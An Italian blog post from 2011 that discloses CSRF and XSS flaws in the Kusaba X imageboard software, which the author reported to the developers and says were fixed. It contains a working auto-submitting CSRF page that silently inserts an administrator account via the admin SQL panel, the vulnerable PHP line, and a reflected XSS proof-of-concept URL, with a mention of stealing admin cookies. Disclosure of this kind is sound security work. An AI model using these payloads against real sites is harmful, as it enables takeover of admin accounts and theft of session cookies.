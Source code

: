 ```yaml
---
comments: true
date: 2011-05-12 21:42:09
layout: post.html
slug: kusaba-x-xsscsrf-vulnerabilites
title: Kusaba X CSRF XSS vulnerabilites
wordpress_id: 1031
categories:
- Pentesting
- Security
- Vulnerabilities
- Web Apps
tags:
- /b/
- 4chan
- advisory
- csrf
- hacking
- security
- sql injection
- vulnerability
- xss
---
```


Ultimamente mi affascina il penetration testing di applicazioni web, scoperto in ritardo visto il mio retaggio primi anni 2000, più dedicato ad *nix, raw sockets e C. Armato di un buon proxy server per il pentest web mi sono dedicato all'auditing di alcune web applications di mia conoscenza.

## Kusaba X e le imageboard

[Kusaba X](http://kusabax.cultnet.net/) è un software per [imageboard](http://it.wikipedia.org/wiki/Imageboard), una sito internet simile alle vecchie bullettin board, ma basato sulla pubblicazione di immagini. Una famosa comunità creatasi da una sezione di una imageboard è /b/ di 4chan, di cui si sente tanto parlare in tanto in tanto per azioni di trolling o per gli attacchi del gruppo Anonymous.
La peculiarità più nota delle imageboard è la completa anonimità degli utenti: i post non sono firmati, nessuno è resposabile delle proprie parole e tutti interloquiscono con un unico nome collettivo. Questa depersonalizzazione le porta ad essere dei microcosmi _anarcheggianti_, davanti ai quali ci si trova spiazzati dal linguaggio incomprensibile, per immagini di cattivo gusto, humor nero, razzismo, trolling, [internet meme](http://en.wikipedia.org/wiki/Internet_meme), e altro. Queste comunità richiamano un internet affascinante di tanti anni fa, senza ancora il recinto messo da facebook ma irc e la magia di non sapere con cui stai interloquendo. Trovo anche nel nome collettivo Anonymous bel un richiamo [blissettiano](http://it.wikipedia.org/wiki/Luther_Blissett_(pseudonimo)), del quale purtroppo si è appropriato il sedicente gruppo "hacker" legato a 4chan.

Finito il discorso da Dams, passiamo alle cose più serie. L'advisory ufficiale è pubblicato nei principali vulnerability [database](http://www.exploit-db.com/exploits/17221/). Ho avvertito gli sviluppatori e i bug sono stati fixati dalla versione 0.9.2.

## Arbitrary SQL statements execution via CSRF

Nelle richieste al pannello di amministrazione non vi è alcun anti csrf token o controllo del referer, quindi è sufficiente che un amministratore loggato visiti la pagina con il CSRF per forzarlo a eseguire comandi privilegiati. ll pannello di amministrazione permette addirittura di inviare comandi SQL con un semplice POST, il che ci rende molto facile fare qualsiasi query al database. Il codice aggiunge un utente privilegiato alla lista degli amministratori, con username 'new_admin' e password 'admin' (salt 'TMC').

~~~ { html }
<html>
<body>
<iframe style="width: 1px; height: 1px; visibility: hidden"
name="hidden"></iframe>
<form method="post" name="sender"
action="http://localhost/kusabax/manage_page.php?action=sql"
target="hidden">
<input type="hidden" name="query"
value="insert into staff values (1331, 'new_admin',
'6a9685fcb53b90f0ca9a1c72d7fa31d2', 'TMC', 1, NULL, 1303904817,
1303908333)">
</form>
</body>
<script>document.sender.submit(); </script>
</html>
~~~

## XSS vulnerability on animation.php

Il file animation.php riflette un parametro passato nella GET senza averlo sanificato

~~~ { php }
<param name="pch_file" value="<?php echo KU_BOARDSPATH . '/' . $_GET['board'] . '/src/' . $_GET['id'] . '.pch'; ?>">
~~~

E il POC è un semplice

~~~ { html }
http://localhost/kusabax/animation.php?board=b&id=1"><script>alert('XSS')</script><"
~~~

ed è ancora più semplice [rubare i cookie](http://en.wikipedia.org/wiki/Cross-site_scripting#Cookie_security) dell'amministratore con un cookie grabber.

